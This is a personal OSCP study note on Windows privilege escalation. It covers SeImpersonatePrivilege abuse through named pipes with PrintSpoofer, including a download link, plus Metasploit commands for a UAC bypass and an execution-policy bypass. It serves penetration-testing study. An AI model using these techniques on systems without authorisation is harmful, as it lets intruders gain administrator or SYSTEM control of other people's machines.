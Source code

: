 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/8. Windows Privilege Escalation/9. Using Exploits/"}
---
```


- Another way of performing privilege escalations is by exploiting vulnerabilities
- There are several kinds:
	- Application running by a higher privileged user
	- Windows Kernel
		- Can easily crash the system
	- Windows Privileges
		- Users with SeImpersonatePrivilege are assigned specific privileges by leveraging a token in a specific context, which can be abused.
		- This most often occurs when breaching the account of a service such as a web server, and not standard users, which may run as: _LocalService_, _LocalSystem_, _NetworkService_, or _ApplicationPoolIdentity_.
		- Others privileges that can be abused include: SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug.

### Named Pipes:
- A method for two unrelated processes to share and transfer data with each other.
- A named pipe server creates a named pipe to which a named pipe client can connect. The server and client does not have to reside on the same system.
- Once a client connects to a named pipe, the server can leverage _SeImpersonatePrivilege_ to impersonate this client after capturing the authentication from the connection process.
- To abuse it we need: A privileged process to connect to a controlled named pipe with _SeImpersonatePrivilege_.
- Example is "PrintSpoofer" which makes NT AUTHORITY connect to a controlled named pipe for command execution.
- Printspoofer: https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

To exploit:
1. Make sure _SeImpersonatePrivilege_ is turned on for your current user with:
```
whoami /priv
```
2. Get the script from your computer.
3. Execute it and win!

Other exploits good to know:
https://jlajara.gitlab.io/Potatoes_Windows_Privesc

-------
### Meterpreter UAC bypass:
- Review the integrity level of current process:
```powershell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- In meterpreter:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

